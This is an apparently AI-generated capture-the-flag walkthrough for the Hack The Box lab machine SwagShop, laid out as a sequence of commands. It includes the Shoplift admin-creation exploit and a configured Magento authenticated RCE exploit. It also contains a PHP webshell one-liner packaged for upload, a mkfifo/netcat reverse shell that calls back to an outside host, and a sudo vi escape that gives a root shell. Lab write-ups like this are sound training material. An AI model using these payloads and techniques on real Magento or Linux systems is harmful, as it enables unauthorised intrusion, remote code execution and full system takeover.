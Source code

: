 Here’s a **clean, Markdown-formatted command walkthrough** for **HTB: SwagShop**, organized by phase and including explanatory context:

---

# 🧢 HTB: SwagShop – Command Walkthrough

## 📋 Box Info
- **IP**: `10.10.10.140`
- **OS**: Ubuntu 16.04 (Xenial)
- **Difficulty**: Easy
- **Initial Access**: Magento authentication bypass + RCE
- **Privilege Escalation**: `sudo vi` file escape

---

## 🔍 Recon

### 🔎 Full Port Scan
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.140
```

### 🔎 Script & Version Scan
```bash
nmap -sC -sV -p 80,22 -oA scans/nmap-scripts 10.10.10.140
```

---

## 📂 Web Enumeration

### 🔍 Directory Brute Force
```bash
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 50 -o scans/gobuster-root -u http://10.10.10.140/
```

---

## 🐚 Shell as www-data

### 👤 Add Admin via Shoplift Exploit
```bash
python poc.py 10.10.10.140
# Result: ypwq:123 added as admin
```

### 🔓 Login to Admin Panel
Navigate to:
```
http://10.10.10.140/index.php/admin
```

### 🧪 RCE #1 – PHP Object Injection

#### 📦 Retrieve Magento Install Date
```bash
curl -s http://10.10.10.140/app/etc/local.xml | grep date
```

#### 💣 Download Authenticated RCE Exploit
```bash
searchsploit -m exploits/php/webapps/37811.py
mv 37811.py magento_rce.py
```

#### ⚙️ Configure Exploit
Edit `magento_rce.py`:
```python
username = 'ypwq'
password = '123'
php_function = 'system'
install_date = 'Wed, 08 May 2019 07:23:09 +0000'
```

#### ▶️ Execute Command
```bash
python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
```

### 🧪 RCE #2 – Malicious Magento Package *(legacy method, may be patched)*

#### 📦 Create Package
```bash
mkdir -p errors
echo '<?php system($_REQUEST["cmd"]); ?>' > errors/cmd.php
md5sum errors/cmd.php  # Save the hash

# Create package.xml with correct structure and hash
# Then:
tar -czvf package.tgz errors/ package.xml
```

#### ⬆️ Upload Package
Navigate to:
```
http://10.10.10.140/downloader/
```

#### 🕸️ Execute Command via Webshell
```bash
curl http://10.10.10.140/errors/cmd.php?cmd=id
```

---

## ⚡ Get Reverse Shell

### 🧬 Reverse Shell Payload
```bash
python magento_rce.py 'http://10.10.10.140/index.php/admin' \
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9001 >/tmp/f"
```

### 📡 Catch Shell
```bash
nc -lnvp 9001
```

---

## 🔼 Privilege Escalation (www-data → root)

### 📟 Upgrade Shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo
fg
reset
# Enter: screen
export TERM=screen
```

### 🔍 Check Sudo Permissions
```bash
sudo -l
```

> Output:
```
(root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

---

## 👑 Root Access

### 📖 Read Flag via `vi`
```bash
sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```

### 🐚 Get Root Shell via vi
```bash
sudo /usr/bin/vi /var/www/html/a

# Inside vi:
:set shell=/bin/bash
:shell
```

Or run directly from command line:
```bash
sudo vi /var/www/html/a -c ':!/bin/sh'
```

---

Let me know if you'd like this saved as a reusable template or combined with your other write-ups!